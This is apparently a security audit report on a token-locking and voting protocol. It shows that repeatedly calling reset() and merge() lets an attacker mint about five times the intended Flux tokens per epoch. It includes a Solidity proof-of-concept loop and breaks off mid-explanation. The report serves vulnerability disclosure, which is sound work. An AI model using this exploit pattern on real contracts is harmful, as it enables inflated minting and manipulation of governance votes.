 So if an user have locked 10 * 10 ** 18 BPT token for 2 weeks, then the maximal amount of flux tokens can be claimed is: 

216_214_167_934_958_887 =  216 * 10 ** 15  Flux token. 

This amount here is just an example. 

Attacker can manipulate the system to mint several times to receive about more this amount in 1 epoch. I can demonstrate in the POC, the attacker was able to mint 5 times of the intended amount. 

The amount can be minted 
```
1189_177_923_641_421_562 = 1189 * 10 ** 15 Flux token
```

By doing so, the attacker can use the Flux token as boost to manipulate the governance voting result by calling the Vote() in Voter contract. 
Or the attacker can use the unclaimed Flux to mint Flux token. 

How to accomplish the exploit of minting? 

With an capital (for example 10 * 10 ** 18) The attacker can mint 10 tokenIDs with each lock 10**18 of BPT 

The attacker can call the function reset() and merge()

```solidity
        uint index = 0; 
        uint count = 9; 
        uint256 tokenId1; 
        uint256 tokenId2; 
        
        uint256 unclaimedFlux; 

            tokenId1 = createVeAlcx(attacker, TOKEN_1, 2 weeks, false);
          
        for (index = 0; index < count; ++index )
        {   
            console2.log("index: %s", index);
            console2.log("Call voter.reset(tokenId1)"); 
            voter.reset(tokenId1);
            unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
            console2.log("unclaimedFlux of tokenId1: %s", unclaimedFlux);
            console2.log("Call  veALCX.merge() to merge tokenId"); 
            tokenId2 = createVeAlcx(attacker, TOKEN_1, 2 weeks, false);
            veALCX.merge(tokenId1, tokenId2);
            tokenId1 =  tokenId2 ; 
        
        }
        
        voter.reset(tokenId1);
```

Why this is possible? 

Step 1: Attacker call reset(tokenId1)
